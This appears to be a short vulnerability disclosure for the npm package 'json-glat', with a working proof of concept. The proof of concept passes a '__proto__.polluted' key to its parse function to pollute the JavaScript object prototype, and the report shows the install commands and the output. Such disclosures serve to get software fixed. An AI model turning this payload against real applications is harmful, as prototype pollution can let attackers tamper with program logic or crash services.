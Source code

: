 # Description

`json-glat` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var jsonGlat = require("json-glat")
console.log("Before : " + {}.polluted);
jsonGlat.parse({'__proto__.polluted': 'Yes! Its Polluted'});
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i json-glat # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
